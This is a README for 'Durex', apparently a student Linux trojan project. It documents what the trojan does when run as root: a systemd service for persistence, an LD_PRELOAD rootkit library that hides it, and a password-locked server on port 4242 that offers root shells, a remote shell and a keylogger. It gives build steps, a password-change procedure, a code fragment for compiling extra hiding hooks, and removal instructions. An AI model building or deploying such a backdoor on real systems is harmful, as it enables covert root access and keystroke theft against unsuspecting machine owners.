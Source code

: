 # DUREX
Simple Trojan

## INSTALLATION && USAGE
### As Normal User
```sh
$> make && ./Durex
JohnDoe
$>
```
Durex only print the user actually connected.

### As Root
```sh
$> make && ./Durex
root
$>
```
Durex only print the user actually connected... but Durex will also :

+ Create a _copy_ of himself in **/bin**
+ Create a _durex.service_ file in **/lib/systemd/system** to add himself as a service, launching himself at bootime as a deamon
+ Create a _durex.so_ library in **/usr/local/lib/** to hide himself and his functions from the system
+ Add this library in **/etc/ld.so.preload**
+ Create a _Durex.log_ file in **/var/log/**

Only one instance of Durex is created. And during his copy, Durex will changed a bit his behaviour allowing himself to :

+ Open a server on port *4242*, allowing *3* clients to connect to it
	+ The server is locked by a password
	+ The server offers to the clients:
		+ A shell as root
		+ A remote shell as root
		+ A keylogger

### Project has been tested on Debian 9.3.0 64bits.

## MODIFICATION
### Password generation
+ Generate a new password with the 'pass' executable:
```sh
$> make pass
cc -o pass other/passwd.c srcs/encrypt.c -I includes/
$> ./pass toto
toto (4): 191 248 92 67 189 94 197 184
$> ./pass kata
kata (4): 201 121 30 74 3 83 154 250
```
+ Use your best editor to modify **durex.h** :
```c
# define SERVER_PASS .. .. .. .. ..
```
+ Recompile

### Library

* Create your file and compile it
```sh
$> gcc -Wall -fPIC -shared -o ./Durex.so [myfile.c] -ldl
```
* If it compiles well, create the **hex** binary
```sh
$> make hex
cc -o hex other/txttohex.c -I includes/
$> ./hex [fichier.c]
\x23\x64\x65...
```
* Add the hexadecimal generated above in **includes/main.h**
```c
# define DUREX_MY_FILE		"/tmp/myfile.c"
# define DUREX_MY_SRC		"\x23\x64\x65\x66..."
```
* Finally add those defines in **src/library.c**
```c
int				install_library()
{
	char	*const files[] = { "gcc", "-Wall", "-fPIC", "-shared", "-o", DUREX_PROCESSHIDER_LIB,
							 DUREX_FGETS_FILE, DUREX_LXSTAT_FILE, DUREX_NEWFSTATAT_FILE,
							 DUREX_PCAP_FILE, DUREX_READDIR_FILE, DUREX_RECVMSG_FILE,
							 DUREX_RM_FILE, DUREX_XSTAT_FILE, \*DUREX_MY_FILE*\,
							 "-ldl", NULL };
	char	*const src[] = { NULL, NULL, NULL, NULL, NULL, NULL,
							 DUREX_FGETS_SRC, DUREX_LXSTAT_SRC, DUREX_NEWFSTATAT_SRC,
							 DUREX_PCAP_SRC, DUREX_READDIR_SRC, DUREX_RECVMSG_SRC,
							 DUREX_RM_SRC, DUREX_XSTAT_SRC, \*DUREX_MY_SRC*\ };
   ...
}
```
* Recompile the binary

### Deleting
+ If you had previously executed the binary has root you must :
	- Remove /etc/ld.so.preload
	- Stop the service durex
	- Disable the service durex
	- Remove /bin/Durex
	- Remove /lib/systemd/system/durex.service
	- Remove /var/log/Durex.log

+ I intentionnaly put no protection on deleting **/etc/ld.so.preload** to clean this up.
+ Read **lib_srcs/rm.c** to think about it. ;)

# AUTHOR
* gbourgeo
